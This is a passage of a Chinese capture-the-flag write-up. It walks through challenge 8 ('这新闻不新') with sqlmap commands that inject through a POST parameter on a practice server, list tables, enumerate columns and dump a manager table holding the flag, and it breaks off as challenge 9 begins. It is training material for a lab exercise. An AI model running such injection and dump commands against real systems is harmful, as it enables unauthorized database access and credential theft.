 检测注入点OK：id
当前库：my_db
表：news thiskey
看thiskey字段：k0y
爆字段得到key：**whati0MyD9ldump**

**行云流水**


----------


##8 这新闻不新

同样用sqlmap直接爆了出来，sqlmap基础参考上题的链接  

###检查注入点  
  
与上题不同的是注入点不在url，而需要用post提交  
  
使用`--data`参数：
`python sqlmap.py -u http://ctf5.simplexue.com:8080/9/asp.asp --data="title=1"` 
    
###打表
`python sqlmap.py -u http://ctf5.simplexue.com:8080/9/asp.asp --data="title=1" --tables`   
  
得到两个表：manager news  
  
###爆manager字段  
`python sqlmap.py -u http://ctf5.simplexue.com:8080/9/asp.asp --data="title=1" -T manager --columns` 
  
| Column | Type        |
|--------|-------------|
| id     | numeric     |
| name   | non-numeric |
| news   | non-numeric |
| pass   | non-numeric |
| title  | non-numeric |
  
###dump内容
`python sqlmap.py -u http://ctf5.simplexue.com:8080/9/asp.asp --data="title=1" -T manager --C "name" --dump`  
  
| id | name | pass         | news | title                       |
|----|------|--------------|------|-----------------------------|
| 1  | key  | TheJiuShiKey | g\t  | N\\?caY)v\\?84]\\?e5l\x14[f |
  
key: **TheJiuShiKey**  
  


----------


##9 程序员的问题  
习惯性的用sqlmap打了一遍，没出来。  
  